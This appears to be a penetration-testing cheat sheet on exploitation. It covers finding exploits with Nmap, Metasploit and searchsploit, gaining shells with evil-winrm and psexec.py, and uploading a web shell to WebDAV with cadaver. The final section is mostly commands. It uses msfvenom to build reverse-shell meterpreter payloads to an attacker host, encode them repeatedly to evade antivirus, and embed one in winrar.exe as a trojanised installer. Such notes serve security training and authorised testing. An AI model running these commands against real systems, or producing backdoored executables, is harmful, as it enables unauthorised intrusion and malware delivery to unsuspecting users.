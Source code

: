 # Exploitation

**Table of Contents:**

Exploitation of any service can be done through:

- <a href='#N'>Nmap Exploit scripts.</a>
- <a href='#M'>MsfConsole Exploit Modules.</a>
- <a href='#I'>Exploits on the Internet</a>
- <a href='#S'>Stand-Alone tools</a>
    - <a href='#winrm'>WinRM</a>
    - <a href='#webdav'>WebDAV</a>
    - <a href='#smb'>SMB</a>
- <a href='#E'>Exploitation using MsfVenom Payloads</a>

<h1 id='N'>Nmap Exploit Scripts</h1>

[https://nmap.org/nsedoc/categories/exploit.html](https://nmap.org/nsedoc/categories/exploit.html)

You can check the exploit category of each script in your local Nmap Script Database. Hola

```bash
cat /usr/share/nmap/scripts/script.db | grep -i exploit | cut -d ' ' -f 5
```

<h1 id='M'>Msfconsole Exploit Modules</h1>

```bash
msfconsole>  search type:exploit <serviceName/software>
```

<h1 id='I'> Exploits On the Internet</h1>

Never use an exploit from a suspicious site or place, it might be the malicious one that can take over your system rather than exploiting the vulnerable service.

- [https://www.exploit-db.com/](https://www.exploit-db.com/) : Exploit DB search filters are very useful for searching exploits.
- [https://www.rapid7.com/db/](https://www.rapid7.com/db/) : Rapid7 is very helpful for finding MSF modules.

Google can be the last resort but be careful using any exploit. Check the stars or authenticity of the GitHub repo in order to use it. Always check what the code does.

[https://packetstormsecurity.com/](https://packetstormsecurity.com/) is the best website to get updates about the latest vulnerabilities and exploits.

Searchsploit is the offline version of exploit-db that comes pre-packaged with Kali. /usr/share/exploitdb, everything stores in this directory.

```bash
searchploit      #to get the complete help to use it
searchsploit remote windows smb | grep -e 'EternalBlue'
searchsploit <searchQueries> -w    #to get the exploit-db links
searchsploit -m <EDB ID>     #to copy in $(pwd)
```

You should have an idea about fixing and compiling your code for the target.

If for some reason cross-compilation isn’t successful or you don’t wanna do that then check out the Offensive security GitHub repo for the pre-compiled binaries.

[https://github.com/offensive-security/exploitdb-bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits)

<h1 id='S'>Standalone tools</h1>

<h2 id='winrm'>Winrm</h2>

After getting creds from crackmapexec you can use evil-winrm to login to the computer.

```bash
evil-winrm.rb -u <user> -p <pass> -i <IP>                        #to get a shell
```

<h2 id='webdav'>WebDav</h2>

**davtest** tool is used for testing WebDAV servers in which filetypes can be uploaded and executed.

```bash
davtest -auth <user>:<pass> -url http://<IP>/<webdavpath>
```

**cadaver** tool is used for interacting with the WebDAV server through which we can upload our web shell to the server to get system access.

```bash
cadaver http://<IP>/<webdavpath>
dav> put /usr/share/webshells/asp/webshell.asp
```

<h2 id='smb'>SMB</h2>

After getting creds of SMB, you can use psexec.py to login to the computer

```bash
psexec.py [DOMAIN/]<USERNAME>[:PASSWORD]@<HOST> [command]
```

<h1 id='E'>Exploitation using MsfVenom Payloads</h1>

```bash
msfvenom   #to get the help
msfvenom --list payloads
# windows/x64/meterpreter/reverse_tcp is a staged payload
# windows/x64/meterpreter_reverse_tcp is a non-staged payload

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -f exe > payload.exe

msfvenom --list formats

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -f elf > payload.elf

msf> use multi/handler   #listening for reverse connection in order to send stage for the staged payload.
```

```bash
msfvenom --list encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -e x86/shikata_ga_nai -f exe > payload.exe
#we can specify the iterations of the encoding in order to maximize our chances of evasion
#-i options for the iterations -i 10 recommended by alexis ahmed 
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe -x winrar.exe > malicious_winrar.exe
# -k option will also maintain the actual functionality of the portable executable but -k will not work for each means injection can be failed.
# After exploiting target migrate to the stable process otherwise the current process will be closed by windows after some time due to hang
meterpreter> run post/windows/manage/migrate
```
